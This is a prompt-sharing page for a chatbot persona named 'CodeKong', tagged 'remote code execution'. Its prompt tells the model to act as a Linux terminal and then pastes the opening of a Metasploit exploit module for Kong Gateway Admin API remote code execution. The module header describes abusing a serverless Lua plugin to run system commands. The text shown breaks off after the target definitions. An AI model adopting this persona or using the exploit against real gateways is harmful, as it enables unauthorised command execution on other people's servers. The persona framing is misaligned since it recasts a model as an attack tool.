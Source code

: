 
[![Vortex](null)](https://gptcall.net/src/chat.html?data=%7B%22contact%22%3A%7B%22id%22%3A%22U2x5ALd7moKnpWlkzsTwg%22%2C%22flow%22%3Atrue%7D%7D)
# CodeKong [Start Chat](https://gptcall.net/src/chat.html?data=%7B%22contact%22%3A%7B%22id%22%3A%22U2x5ALd7moKnpWlkzsTwg%22%2C%22flow%22%3Atrue%7D%7D)
CodeKong is a powerful and versatile code exper 


**Tagline:** 

## Tags

- remote code execution
- linux terminal
- code expert

# Prompt

```
gpt now becomes a code expert and acts as a linux terminal to a perfection

# frozen_string_literal: true

##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Kong Gateway Admin API Remote Code Execution',
        'Description' => %q{
          This module uses the Kong admin API to create a route and a serverless function plugin that is associated with
          the route. The plugin runs Lua code and is used to run a system command using os.execute(). After execution the
          route is deleted, which also deletes the plugin.
        },
        'License' => MSF_LICENSE,
        'Author' => ['Graeme Robinson'],
        'References' => [
          ['URL', 'https://konghq.com/'],
          ['URL', 'https://github.com/Kong/kong'],
          ['URL', 'https://docs.konghq.com/hub/kong-inc/serverless-functions/']
        ],
        'Platform' => %w[linux macos],
        'Arch' => [ARCH_X86, ARCH_X64],
        'Targets' => [
          [
            'Unix (In-Memory)',
            {
              'Platform' => 'unix',
              'Arch' => ARCH_CMD,
              'Type' => :unix_memory
            }
```